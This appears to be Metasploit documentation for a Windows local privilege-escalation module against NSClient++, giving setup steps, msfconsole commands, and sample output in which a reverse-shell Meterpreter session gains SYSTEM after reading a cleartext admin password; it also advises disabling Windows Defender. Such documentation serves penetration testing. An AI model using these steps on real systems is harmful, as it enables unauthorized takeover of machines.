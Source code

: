 ## Vulnerable Application

### Description

This module allows an attacker with an unprivileged windows account to gain admin access on windows system and start a shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts` feature should be enabled.
You must also know where is the NSClient config file as it is used to read the admin password which is stored in clear text.

### Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with
this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface
and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/local/nscp_pe`
3. `set SESSION <session>`
4. `set FILE <NSCP_config_file>` if the NSCP config file is not `C:\Program Files\NSClient++\nsclient.ini`
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability, gain admin access and start a shell

## Options

### FILE

Set the config file of NSClient++. If you don't know, try with the default value.

## Scenarios

This module was successfully tested on Windows 10 Home (you may need to disable Windows Defender as msf payload could be spotted).
See the following output :

```
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  12        meterpreter x64/windows  DESKTOP-T5N69RR\basic_user @ DESKTOP-T5N69RR  172.18.15.143:4444 -> 172.18.15.142:64307 (172.18.15.142)


msf6 exploit(nscp_pe) > set session 12
session => 12
msf6 exploit(nscp_pe) > run

[!] SESSION may not be compatible with this module (incompatible session type: meterpreter)
[*] Started reverse TCP handler on x.x.x.x:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Admin password found : easypassword
[+] NSClient web interface is enabled !
[+] The target is vulnerable. External scripts feature enabled !
[+] Admin password found : easypassword
[+] NSClient web interface is enabled !
[*] Configuring Script with Specified Payload . . .
[*] Added External Script (name: lrawsiaajn)
[*] Saving Configuration . . .
[*] Reloading Application . . .
[*] Waiting for Application to reload . . .
[*] Triggering payload, should execute shortly . . .
[*] Sending stage (200262 bytes) to y.y.y.y
[*] Meterpreter session 13 opened (x.x.x.x:4444 -> y.y.y.y:64309) at 2021-06-09 14:37:10 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
